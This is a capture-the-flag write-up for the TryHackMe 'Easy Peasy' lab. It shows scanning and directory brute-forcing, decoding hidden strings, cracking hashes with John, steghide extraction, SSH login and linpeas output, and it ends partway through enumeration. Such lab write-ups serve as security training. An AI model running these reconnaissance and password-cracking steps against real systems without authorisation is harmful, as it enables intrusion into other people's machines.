


# THM - Easy Peasy 

## Date Commenced 26MAR2022


---
## IP Address
### Attempt 1
export IP=10.10.53.218

### Attempt 2
export IP=10.10.245.192

---
## Open Ports
Perform Basic **namp** scan:

> 80
>
> 6498
>
> 65524

> rustscan -a 10.10.53.218 | tee ./Results/rustscan01.log

```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.53.218:80
Open 10.10.53.218:6498
Open 10.10.53.218:65524
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-26 05:33 EDT
Initiating Ping Scan at 05:33
Scanning 10.10.53.218 [2 ports]
Completed Ping Scan at 05:33, 0.23s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:33
Completed Parallel DNS resolution of 1 host. at 05:33, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 05:33
Scanning 10.10.53.218 [3 ports]
Discovered open port 80/tcp on 10.10.53.218
Discovered open port 65524/tcp on 10.10.53.218
Discovered open port 6498/tcp on 10.10.53.218
Completed Connect Scan at 05:33, 0.23s elapsed (3 total ports)
Nmap scan report for 10.10.53.218
Host is up, received syn-ack (0.23s latency).
Scanned at 2022-03-26 05:33:18 EDT for 1s

PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack
6498/tcp  open  unknown syn-ack
65524/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
```


---
## NMAP
Perform a more intensive **nmap** scan on the open ports only:

> nmap -p 80,6498,65524 -sV -sC -A $IP -oN ./Results/nmap02.log

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-26 05:41 EDT
Nmap scan report for 10.10.53.218
Host is up (0.23s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.16.1
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds
```


---
## Enumerate the web Server

### Source
The main web page is just a default *nginx* home page and nothing in the source code

### Robots.txt

```
User-Agent:*
Disallow:/
Robots Not Allowed
```

### Directories
Use **feroxbuster** find directories:

> feroxbuster -u http://$IP/ -x php,pdf,txt,epub,html,cgi,css -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o ./Results/feroxbuster01.log -t 150


```

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.6.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.53.218/
 🚀  Threads               │ 150
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.6.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ./Results/feroxbuster01.log
 💲  Extensions            │ [php, pdf, txt, epub, html, cgi, css]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       25l       69w      612c http://10.10.53.218/
200      GET       25l       69w      612c http://10.10.53.218/index.html
200      GET        3l        5w       43c http://10.10.53.218/robots.txt
301      GET        7l       11w      169c http://10.10.53.218/hidden => http://10.10.53.218/hidden/
200      GET       18l       32w      390c http://10.10.53.218/hidden/index.html
301      GET        7l       11w      169c http://10.10.53.218/hidden/whatever => http://10.10.53.218/hidden/whatever/
200      GET       21l       35w      435c http://10.10.53.218/hidden/whatever/index.html
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_53_218_-1648293181.state ...
[################>---] - 1h   4292550/5293104 21m     found:7       errors:19422  
[#################>--] - 1h   1575792/1764368 281/s   http://10.10.53.218/ 
[################>---] - 1h   1476648/1764368 271/s   http://10.10.53.218/hidden 
[###############>----] - 1h   1338160/1764368 256/s   http://10.10.53.218/hidden/whatever 
```

### /hidden/index.html
Gives an image of a WW2 German bunker, nothing in source code



### /hidden/whatever
This gives another image, but this time of a hiker in an alpine region.


The source code is interesting, though.

```
<!DOCTYPE html>
<html>
<head>
<title>dead end</title>
<style>
    body {
	background-image: url("https://cdn.pixabay.com/photo/2015/05/18/23/53/norway-772991_960_720.jpg");
	background-repeat: no-repeat;
	background-size: cover;
        width: 35em;
        margin: 0 auto;
        font-family: Tahoma, Verdana, Arial, sans-serif;
    }
</style>
</head>
<body>
<center>
<p hidden>ZmxhZ3tmMXJzN19mbDRnfQ==</p>
</center>
</body>
</html>
```

The included 'hash' appears to be *base64* encoded (possibly). But the title states *dead end*, could be a red herring.

> ZmxhZ3tmMXJzN19mbDRnfQ==

Or Not:

```
echo "ZmxhZ3tmMXJzN19mbDRnfQ==" | base64 -d             
flag{f1rs7_fl4g} 
```

> Flag1: flag{f1rs7_fl4g}


---
## Enumnerate the other web server
Try to work out whats on the **Apache** web server on port 65524. The main page is just the default **Apache** home page.

### Directories
Use **feroxbuster** to enum the server:

> feroxbuster -u http://$IP:65524/ -x php,pdf,txt,epub,html,cgi,css -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e -o ./Results/feroxbuster02.log -t 150

```
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.6.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.53.218:65524/
 🚀  Threads               │ 150
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.6.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ ./Results/feroxbuster02.log
 💲  Extensions            │ [php, pdf, txt, epub, html, cgi, css]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       24l      126w     5754c http://10.10.53.218:65524/icons/openlogo-75.png
403      GET        9l       28w      280c http://10.10.53.218:65524/icons/
200      GET      370l      946w    10818c http://10.10.53.218:65524/
301      GET        9l       28w      327c http://10.10.53.218:65524/icons/small => http://10.10.53.218:65524/icons/small/
403      GET        9l       28w      280c http://10.10.53.218:65524/server-status
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_10_10_53_218:65524_-1648293179.state ...
[###>----------------] - 1h    882306/5293176 6h      found:5       errors:310538 
[#########>----------] - 1h    850400/1764368 186/s   http://10.10.53.218:65524/ 
[#########>----------] - 1h    851432/1764368 186/s   http://10.10.53.218:65524/icons/ 
[#########>----------] - 1h    843408/1764368 185/s   http://10.10.53.218:65524/icons/small
```

### Robots.txt
Viewing the *Robots.txt* file on thi web server gives the following results:

```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

So, something hashed or encoded, maybe. **HashID* said it was *MD5*, but **John** wasn't having a bar of it. So,, off to *http://md5hashing.net* and see what they say:



And there is the flag:

> Flag2: flag{1m_s3c0nd_fl4g}

### Source code
So, I don't think it was meant to be that easy, but flag 3 was hidden in source code of the **Apache** home page:

> Flag3: flag{9fdafbd64c47471a8f54cd3fc64cd312}

There is also a hidden snippet that contains a possible hash:

```
<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
```

But, I cannot work out what type. **HashID** and **crackstation.net** both wont recognise it.

Finally found a *base62* decoder online that tells me it is:

> /n0th1ng3ls3m4tt3r

## /n0th1ng3ls3m4tt3r
What is here to see, is that some matrix shit or what..???


Source cpde has another hash:

> 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Turns out that this is **GOST** hash. **John** could deal with it.

> john --wordlist=../easypeasy.txt  --format=gost hash03

```
Using default input encoding: UTF-8
Loaded 1 password hash (gost, GOST R 34.11-94 [64/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mypasswordforthatjob (?)     
1g 0:00:00:00 DONE (2022-03-26 06:52) 50.00g/s 204800p/s 204800c/s 204800C/s mypasswordforthatjob..flash88
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

### Steghide
Whynot try something new:

The image on the */n0th1ng3ls3m4tt3r* page has something to hide. Unhide it with steghide for all the world to see. Use the password just found:
```
┌──(kali㉿kali)-[~/THM/EasyPeasy26MAR2022]
└─$ steghide extract -sf binarycodepixabay.jpg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
                                                                                                                                                     
┌──(kali㉿kali)-[~/THM/EasyPeasy26MAR2022]
└─$ cat secrettext.txt 
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

Cyberchef says that binary gives the results of:

> iconvertedmypasswordtobinary


---
## SSH

```
ssh boring@$IP -p 6498
The authenticity of host '[10.10.245.192]:6498 ([10.10.245.192]:6498)' can't be established.
ED25519 key fingerprint is SHA256:6XHUSqR7Smm/Z9qPOQEMkXuhmxFm+McHTLbLqKoNL/Q.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.245.192]:6498' (ED25519) to the list of known hosts.
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.245.192's password: 

Permission denied, please try again.
boring@10.10.245.192's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat juser.txt
cat: juser.txt: No such file or directory
boring@kral4-PC:~$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```

Flag is presented in a *RTO13* cipher and decoded produces:

> user.txt: flag{n0wits33msn0rm4l}


---
## Linux Enum
Poke the Penguin:

### Linpeas

```
boring@kral4-PC:~$ chmod +x linpeas.sh 
boring@kral4-PC:~$ ./linpeas.sh


                            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
                    ▄▄▄▄▄▄▄             ▄▄▄▄▄▄▄▄
             ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄
         ▄▄▄▄     ▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄
         ▄    ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄          ▄▄▄▄▄▄               ▄▄▄▄▄▄ ▄
         ▄▄▄▄▄▄              ▄▄▄▄▄▄▄▄                 ▄▄▄▄ 
         ▄▄                  ▄▄▄ ▄▄▄▄▄                  ▄▄▄
         ▄▄                ▄▄▄▄▄▄▄▄▄▄▄▄                  ▄▄
         ▄            ▄▄ ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄   ▄▄
         ▄      ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄                                ▄▄▄▄
         ▄▄▄▄▄  ▄▄▄▄▄                       ▄▄▄▄▄▄     ▄▄▄▄
         ▄▄▄▄   ▄▄▄▄▄                       ▄▄▄▄▄      ▄ ▄▄
         ▄▄▄▄▄  ▄▄▄▄▄        ▄▄▄▄▄▄▄        ▄▄▄▄▄     ▄▄▄▄▄
         ▄▄▄▄▄▄  ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄      ▄▄▄▄▄▄▄   ▄▄▄▄▄ 
          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄        ▄          ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ 
         ▄▄▄▄▄▄▄▄▄▄▄▄▄                       ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄                         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄
         ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄            ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄
          ▀▀▄▄▄   ▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄▀▀▀▀▀▀
               ▀▀▀▄▄▄▄▄      ▄▄▄▄▄▄▄▄▄▄  ▄▄▄▄▄▄▀▀
                     ▀▀▀▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▄▀▀▀

    /---------------------------------------------------------------------------\
    |                             Do you like PEASS?                            |                                                                    
    |---------------------------------------------------------------------------|                                                                    
    |         Become a Patreon    :     https://www.patreon.com/peass           |                                                                    
    |         Follow on Twitter   :     @carlospolopm                           |                                                                    
    |         Respect on HTB      :     SirBroccoli & makikvues                 |                                                                    
    |---------------------------------------------------------------------------|                                                                    
    |                                 Thank you!                                |                                                                    
    \---------------------------------------------------------------------------/                                                                    
          linpeas-ng by carlospolop                                                                                                                  
                                                                                                                                                     
ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.                
                                                                                                                                                     
Linux Privesc Checklist: https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist
 LEGEND:                                                                                                                                             
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs) 
  LightMagenta: Your username

 Starting linpeas. Caching Writable Folders...

                                         ╔═══════════════════╗
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════                                              
                                         ╚═══════════════════╝                                                                                       
OS: Linux version 4.15.0-106-generic (buildd@lcy01-amd64-016) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #107-Ubuntu SMP Thu Jun 4 11:27:52 UTC 2020
User & Groups: uid=1000(boring) gid=1000(boring) groups=1000(boring)
Hostname: kral4-PC
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/nc is available for network discover & port scanning (linpeas can discover hosts and scan ports, learn more with -h)                        
                                                                                                                                                     

Caching directories . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . DONE
                                                                                                                                                     
                                        ╔════════════════════╗
════════════════════════════════════════╣ System Information ╠════════════════════════════════════════                                               
                                        ╚════════════════════╝                                                                                       
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#kernel-exploits                                                                        
Linux version 4.15.0-106-generic (buildd@lcy01-amd64-016) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #107-Ubuntu SMP Thu Jun 4 11:27:52 UTC 2020
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.4 LTS
Release:        18.04
Codename:       bionic

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                                                                           
Sudo version 1.8.21p2                                                                                                                                

╔══════════╣ USBCreator
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation                           
                                                                                                                                                     
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-path-abuses                                                                   
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games                                                             
New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

╔══════════╣ Date & uptime
Sat Mar 26 05:20:10 PDT 2022                                                                                                                         
 05:20:10 up 12 min,  1 user,  load average: 1.24, 0.93, 0.64

╔══════════╣ Any sd*/disk* disk in /dev? (limit 20)
disk                                                                                                                                                 

╔══════════╣ Unmounted file-system?
╚ Check if you can mount umounted devices                                                                                                            
sed: -e expression #1, char 251: unknown option to `s'                                                                                               

╔══════════╣ Environment
╚ Any private information inside environment variables?                                                                                              
LESSOPEN=| /usr/bin/lesspipe %s                                                                                                                      
HISTFILESIZE=0
MAIL=/var/mail/boring
USER=boring
SSH_CLIENT=10.9.2.170 41486 6498
SHLVL=1
HOME=/home/boring
SSH_TTY=/dev/pts/0
DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus
LOGNAME=boring
_=./linpeas.sh
XDG_SESSION_ID=3
TERM=xterm-256color
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
XDG_RUNTIME_DIR=/run/user/1000
LANG=en_US.UTF-8
HISTSIZE=0
LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc=01;31:*.arj=01;31:*.taz=01;31:*.lha=01;31:*.lz4=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.tzo=01;31:*.t7z=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lrz=01;31:*.lz=01;31:*.lzo=01;31:*.xz=01;31:*.zst=01;31:*.tzst=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.deb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.alz=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.cab=01;31:*.wim=01;31:*.swm=01;31:*.dwm=01;31:*.esd=01;31:*.jpg=01;35:*.jpeg=01;35:*.mjpg=01;35:*.mjpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35:*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mkv=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35:*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.m4a=00;36:*.mid=00;36:*.midi=00;36:*.mka=00;36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.oga=00;36:*.opus=00;36:*.spx=00;36:*.xspf=00;36:
SHELL=/bin/bash
LESSCLOSE=/usr/bin/lesspipe %s %s
PWD=/home/boring
SSH_CONNECTION=10.9.2.170 41486 10.10.245.192 6498
HISTFILE=/dev/null

╔══════════╣ Searching Signature verification failed in dmesg
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#dmesg-signature-verification-failed                                                    
dmesg Not Found                                                                                                                                      
                                                                                                                                                     
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                   
sed: -e expression #1, char 27: unknown option to `s'                                                                                                

╔══════════╣ Executing Linux Exploit Suggester 2
╚ https://github.com/jondonas/linux-exploit-suggester-2                                                                                              
                                                                                                                                                     
╔══════════╣ Protections
═╣ AppArmor enabled? .............. You do not have enough privilege to read the profile set.                                                        
apparmor module is loaded.
═╣ grsecurity present? ............ grsecurity Not Found
═╣ PaX bins present? .............. PaX Not Found                                                                                                    
═╣ Execshield enabled? ............ Execshield Not Found                                                                                             
═╣ SELinux enabled? ............... sestatus Not Found                                                                                               
═╣ Is ASLR enabled? ............... Yes                                                                                                              
═╣ Printer? ....................... No
═╣ Is this a virtual machine? ..... Yes (xen)                                                                                                        

                                             ╔═══════════╗
═════════════════════════════════════════════╣ Container ╠═════════════════════════════════════════════                                              
                                             ╚═══════════╝                                                                                           
╔══════════╣ Container related tools present
╔══════════╣ Container details                                                                                                                       
═╣ Is this a container? ........... No                                                                                                               
═╣ Any running containers? ........ No                                                                                                               
                                                                                                                                                     

                          ╔════════════════════════════════════════════════╗
══════════════════════════╣ Processes, Crons, Timers, Services and Sockets ╠══════════════════════════                                               
                          ╚════════════════════════════════════════════════╝                                                                         
╔══════════╣ Cleaned processes
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-unix/privilege-escalation#processes                               
root         1  1.5  1.7 159624  8756 ?        Ss   05:07   0:11 /sbin/init splash                                                                   
root       224  0.3  1.7 111252  8532 ?        S<s  05:07   0:02 /lib/systemd/systemd-journald
root       259  0.4  0.9  44624  4832 ?        Ss   05:07   0:03 /lib/systemd/systemd-udevd
systemd+   277  0.0  0.8  80060  4104 ?        Ss   05:07   0:00 /lib/systemd/systemd-networkd
  └─(Caps) 0x0000000000003c00=cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw
systemd+   392  0.0  0.6 143996  3148 ?        Ssl  05:08   0:00 /lib/systemd/systemd-timesyncd
  └─(Caps) 0x0000000002000000=cap_sys_time
systemd+   399  0.1  1.1  70768  5864 ?        Ss   05:08   0:00 /lib/systemd/systemd-resolved
root       448  0.1  1.3 434328  6512 ?        Ssl  05:08   0:00 /usr/sbin/ModemManager --filter-policy=strict
root       449  0.0  1.6 473252  8004 ?        Ssl  05:08   0:00 /usr/lib/udisks2/udisksd
root       451  0.1  1.1  70612  5868 ?        Ss   05:08   0:01 /lib/systemd/systemd-logind
syslog     453  0.0  0.7 263036  3660 ?        Ssl  05:08   0:00 /usr/sbin/rsyslogd -n
avahi      468  0.0  0.0  47076   340 ?        S    05:08   0:00  _ avahi-daemon: chroot helper
root       455  0.0  1.4 297048  6912 ?        Ssl  05:08   0:00 /usr/lib/accountsservice/accounts-daemon[0m
root       456  0.0  0.5  23036  2592 ?        Ss   05:08   0:00 /usr/sbin/anacron -dsq
message+   460  0.3  0.9  50560  4512 ?        Ss   05:08   0:02 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only
  └─(Caps) 0x0000000020000000=cap_audit_write
root       478  0.0  0.7  45248  3876 ?        Ss   05:08   0:00 /sbin/wpa_supplicant -u -s -O /run/wpa_supplicant
root       480  0.0  0.1   4552   712 ?        Ss   05:08   0:00 /usr/sbin/acpid
root       483  0.1  2.6 177496 13204 ?        Ssl  05:08   0:01 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
root       484  0.1  2.2 413856 10964 ?        Ssl  05:08   0:01 /usr/sbin/NetworkManager --no-daemon[0m
root       485  0.0  0.6  38428  3160 ?        Ss   05:08   0:00 /usr/sbin/cron -f
root       505  0.1  1.6 292532  8000 ?        Ssl  05:08   0:01 /usr/lib/policykit-1/polkitd --no-debug
root       535  0.0  1.0  72300  5012 ?        Ss   05:08   0:00 /usr/sbin/sshd -D
boring     858  0.1  1.2 108168  6176 ?        S    05:10   0:00      _ sshd: boring@pts/0
boring     861  0.0  1.0  29624  5088 pts/0    Ss   05:10   0:00          _ -bash
boring    1240  0.1  0.5   5500  2716 pts/0    S+   05:16   0:00              _ /bin/sh ./linpeas.sh
boring    4097  0.0  0.2   5500  1076 pts/0    S+   05:20   0:00                  _ /bin/sh ./linpeas.sh
boring    4101  0.0  0.7  46924  3840 pts/0    R+   05:20   0:00                  |   _ ps fauxwww
boring    4100  0.0  0.2   5500  1076 pts/0    S+   05:20   0:00                  _ /bin/sh ./linpeas.sh
root       566  0.0  0.3 157912  1576 ?        Ss   05:08   0:00 nginx: master process /usr/sbin/nginx -g daemon[0m on; master_process on;
